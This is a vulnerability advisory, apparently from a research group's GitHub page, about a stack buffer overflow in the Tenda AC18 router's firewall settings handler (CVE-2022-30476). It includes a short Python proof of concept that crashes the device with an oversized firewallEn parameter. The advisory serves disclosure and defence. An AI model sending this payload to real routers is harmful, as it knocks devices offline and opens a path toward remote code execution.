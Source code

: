 # Tenda Router AC18 Vulnerability

This vulnerability lies in the `/goform/SetFirewallCfg` page which influences the lastest version of Tenda Router AC18. (The latest version is [AC18_V15.03.05.19(6318)](https://www.tenda.com.cn/download/detail-2683.html))

## Vulnerability Description

There is a **stack-based buffer overflow** vulnerability in function `formSetFirewallCfg`.

In function `formSetFirewallCfg` it reads user provided parameter `firewallEn` into `src`, and this variable is passed into function `strcpy` without any length check, which may overflow the stack-based buffer `dest`.

![Vulnerability Function](./vuln.png)

So by requesting the page `/goform/SetFirewallCfg`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.

## PoC

```python
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/SetFirewallCfg?"
url += "firewallEn=" + "s" * 0x500

response = requests.get(url)
```

## Timeline

* 2022-05-07: Report to CVE & CNVD;
* 2022-05-26: CVE ID assigned (CVE-2022-30476)
* 2022-05-30: CNVD ID assigned (CNVD-2022-41847)

## Acknowledge

Credit to [@peanuts](https://github.com/peanuts62), [@Minghao Lin](https://github.com/MinghaoLin2000) and [@cylin](https://github.com/lcyfrank) from IIE, CAS.

